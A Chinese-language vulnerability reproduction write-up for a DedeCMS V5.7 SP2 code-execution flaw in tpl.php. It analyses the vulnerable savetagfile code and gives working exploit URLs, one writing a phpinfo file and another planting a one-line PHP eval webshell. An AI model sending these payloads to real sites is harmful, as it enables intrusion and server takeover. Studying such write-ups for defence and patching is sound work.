



# （CNVD-2018-01221）DedeCMS V5.7 SP2 存在代码执行漏洞

> 原文：[http://book.iwonder.run/0day/Dedecms/CNVD-2018-01221.html](http://book.iwonder.run/0day/Dedecms/CNVD-2018-01221.html)

## 一、漏洞简介

DedeCMS V5.7 SP2 版本中 tpl.php 存在代码执行漏洞，攻击者可利用该漏洞在增加新的标签中上传木马，获取 webshell

## 二、漏洞影响

## 三、复现过程

需要登录后台

根据公开的漏洞知道 tpl.php 里面 251-281 行存在代码执行漏洞，打开 tpl.php 文件


### 代码分析

```
(1)此处定义了一个 savetagfile 的函数，首先做一个判断，参数“action”是否等于 savetagfile，如果等于，就进行下一步
(2)csrf_chack(),这里有一个 csrf 检验的函数，我们需要加上 token 来绕过，token 是登陆的令牌，当我们向服务器发送登录请求时，在客户端会生成一个用于验证的令牌。
(3)正则表达式匹配，详情参见 https://www.runoob.com/regexp/regexp-rule.html*
   [a-z0-9_-]{1,}的意思是，匹配所有包含一个以上的字母数字下划线和横杠，后面的\.意思是匹配小数点
   所以最终那个判断条件的意思是如果参数 filename 不符合上述的匹配条件，那么就不允许修改操作的进行，所以文件名必须要.lib.php 结尾。
(4)preg_replace 的意思是执行一个正则表达式的搜索和替换，我们可以通过例子来分析一下,发现得到的$tagname 的值为 moonsec
(5)stripslashes()的作用是引用用一个引用字符串，此处没有多大的作用
(6)最后是把$content 里的内容写入到相对用的路径里，问题就出在了这里，这一部分代码除了对写入的文件名字做了简单的过滤，除了有一个 csrf 防护之外，其他并没有什么安全措施，     
   导致我们可以任意写入代码，如果我们直接写入一句话木马，那么就可以直接连上去拿 webshell 了 
```

根据上面的代码知道要上传的参数有：action,token,filename,content.现在只剩下获取 token 了，要怎么才能获取到 token 呢？我们再去 tpl.php 里看一下，发现 action 的参数有很多，比如 del，upoladok，edit，upload 等等，但只有传入 upload 的时候页面才会回显正常，而其他的都会显示 token 异常，所以只能通过 action=upload 来获取 token。

### 漏洞复现

获取 token

```
http://0-sec.org/dede/tpl.php?action=upload 
```


然后查看网页源代码，找到 token



构造 payload 如下

```
http://0-sec.org/dede5.7/dede/tpl.php?filename=(文件名随意).lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=f1ccc319d5c897a3a362335792a21e05(替换你复制的 token) 
```

访问了成功写入



访问写入的文件

```
http://0-sec.org/include/taglib/（你上传的文件名）.lib.php 
```


也可以构造一句话木马 payload

```
http://0-sec.org/dede5.7/dede/tpl.php?filename=caidao.lib.php&action=savetagfile&content=%3C?php%20@eval($_POST[%27dylan%27])?%3E&token=2d7ef87e9828edaad2d7b6bbe37f1929 
```



